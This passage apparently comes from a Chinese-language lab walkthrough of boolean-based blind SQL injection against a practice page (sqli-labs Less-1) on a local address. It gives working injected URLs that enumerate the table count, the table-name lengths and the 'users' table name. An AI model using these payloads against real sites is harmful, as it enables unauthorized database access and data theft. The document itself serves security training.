 - 开始攻击

![image-20240820201050012](assets/image-20240820201050012.png)

- 根据顺序得到--> 115 101 99 117 114 105 116 121 即为:``security``

- 然后开始获取数据库表的``数目``(跟前面判断数据库的字符数是一样的,这里有``4张``表)

```sql
http://192.168.77.131/master/Less-1/?id=1'and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

- 获取第一个表的``表名长度``(6个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 0,1) =6--+
```

- 获取第二个表的``表名长度``(8个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 1,1) =8 --+
```

- 获取第三个表的``表名长度``(7个字段)

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 2,1) =7 --+
```

- 获取第四个表的``表名长度``(5个字段)-->``users``

```sql
http://192.168.77.131/master/Less-1/?id=1' and (select LENGTH(table_name) from information_schema.tables where table_schema=database() limit 3,1) =5 --+
```

- 获取``表名``--> 117 115 101 114 115 即:``users``

![image-20240820205508239](assets/image-20240820205508239.png)
